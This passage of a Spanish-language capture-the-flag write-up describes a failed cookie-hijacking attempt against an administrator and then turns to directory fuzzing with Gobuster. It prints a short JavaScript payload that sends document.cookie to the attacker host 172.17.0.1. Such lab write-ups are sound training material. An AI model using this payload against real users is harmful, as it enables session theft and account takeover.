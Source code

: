 En este punto lo que se nos ocurre es intentar aplicar un **Cookie Hijacking**, por lo que nos crearemos un archivo **JavaScript** para robar la **Cookie** al usuario **administrador**. 

```bash
var request = new XMLHttpRequest();
request.open('GET', 'http://172.17.0.1/?cookie=' + document.cookie);
request.send();
```

A continuación, como link enviaremos la **dirección url** donde está alojado el archivo de **JavaScript** encargado de robar la **cookie**.

![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202154244.png>)

Desafortunadamente, tal y como vemos a continuación nos llegará la petición al **[pwned.js](<../../Introducción al Hacking/OWASP TOP 10 y vulnerabilidades web/XSS (Cross-Site Scripting)/Scripts/cookie.js.md>)** pero no nos interpreta el contenido del mismo.

> Enviando links al administrador no vamos a lograr nada por lo que se puede decir que estamos ante un **Rabit Hole**.

![](<../assets/images/posts/2025-02-13-trr0rlabs/Pasted image 20250202154311.png>)

Pasaremos a realizar **fuzzing** de directorios usando [Gobuster](<../../Introducción al Hacking/Reconocimiento/Enumeración de información/Enumeración de Aplicaciones Web/Gobuster.md>) de la siguiente forma.
